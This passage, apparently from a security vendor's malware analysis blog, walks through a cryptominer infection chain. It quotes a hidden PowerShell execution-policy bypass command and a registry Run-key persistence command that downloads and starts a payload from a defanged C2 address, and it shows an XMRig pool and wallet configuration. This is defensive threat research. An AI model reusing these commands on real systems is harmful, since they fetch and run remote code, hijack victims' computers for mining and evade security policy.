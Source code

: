 _**Figure 12(b): Installer.ps1 stored in Roaming folder**_

### Injection  

An attempt is made to bypass system policies and launch the script 

- _/c powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -File “C:UsersadminAppDataRoaminginstaller.ps1_ 

- The ‘installer.ps1’ contains malicious code which will be injected and executed using a technique called **\*****Process Injection**  (Figure 14) 

- Figure 13 shows how the malware encodes this script to avoid detection 

![](https://www.mcafee.com/blogs/wp-content/uploads/2025/03/Screenshot-2025-03-04-at-3.21.30-PM.png)

_**Figure 13: Base64 Encoded Malicious Code**_

![](https://www.mcafee.com/blogs/wp-content/uploads/2025/03/Screenshot-2025-03-04-at-3.22.58-PM.png)

_**Figure 14: PowerShell code for Process Injection.**_

### **\*Persistence**  

Malware attempts to maintain persistence on the Victim’s computer.  

- It executes reg.exe with the following command line (Fig 15) 

- reg add “HKEY\_CURRENT\_USERSoftwareMicrosoftWindowsCurrentVersionRun” /v WindowsUpdate /t REG\_SZ /d “powershell -ExecutionPolicy Bypass -NoProfile -Command Invoke-WebRequest -Uri 45\[.\]144\[.\]212\[.\]77:16000/client -OutFile C:UsersadminAppDataRoamingMicrosoftWindowsStart MenuProgramsStartuprunps.exe; Start-Process C:UsersadminAppDataRoamingMicrosoftWindowsStart MenuProgramsStartuprunps.exe” /f 

 ![](https://www.mcafee.com/blogs/wp-content/uploads/2025/03/Screenshot-2025-03-04-at-3.24.25-PM.png)

_**Figure 15: Creating Run Key entry to maintain persistence**_

- This command retrieves a file named client.exe from the C2 server, saves it in the ProgramsStartup as runps.exe, and executes it as its **\*****Payload**. The file runps.exe is identified as **\*****XMRig** mining software.  

### Payload 

- To initiate the mining process, it connects to the same C2 server and downloads additional parameters.  

![](https://www.mcafee.com/blogs/wp-content/uploads/2025/03/Screenshot-2025-03-04-at-3.25.26-PM.png)

_**Figure 16: HTTP response that contains additional parameters**_ 

**\[{“address”:”494k9WqKJKFGDoD9MfnAcjEDcrHMmMNJTUun8rYFRYyPHyoHMJf5sesH79UoM8VfoGYevyzthG86r5BTGYZxmhENTzKajL3″,”idle\_threads”:90,”idle\_time”:1,”password”:”x”,”pool”:”pool.hashvault.pro:443″,”task”:”FALLEN|NOTASK”,”threads”:40}\]** 

- These are parameters used to identify the wallet address. 

